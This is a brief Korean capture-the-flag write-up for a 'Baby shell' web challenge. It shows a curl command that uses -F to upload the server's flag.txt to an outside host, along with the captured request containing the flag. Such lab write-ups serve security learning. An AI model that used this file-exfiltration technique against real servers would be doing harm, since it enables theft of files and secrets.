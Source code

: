 # Baby shell
web.isangxcauition.xyz:20400

Made by 명석

Ping, Wget, CuRL 명령어를 실행하는 웹사이트로 다음과 같이 curl 명령어의 F 옵션을 이용해 form data 를 포함시켜 request로 보내서 FLAG를 받을 수 있었다.
```sh
curl -F password=@./flag.txt https://example.com
```
Response
```
POST / HTTP/1.1
Host: txkyeou.request.dreamhack.games
Connection: close
Content-Length: 234
User-Agent: curl/7.74.0
Accept: */*
Content-Type: multipart/form-data; boundary=------------------------f02e6527d9f36ea6

--------------------------f02e6527d9f36ea6

Content-Disposition: form-data; name="password"; filename="flag.txt"

Content-Type: text/plain



IxC{D0nt_mak3_us3r_t0_wr1t3_f1l3_t0_s3rv3r}


--------------------------f02e6527d9f36ea6--
```
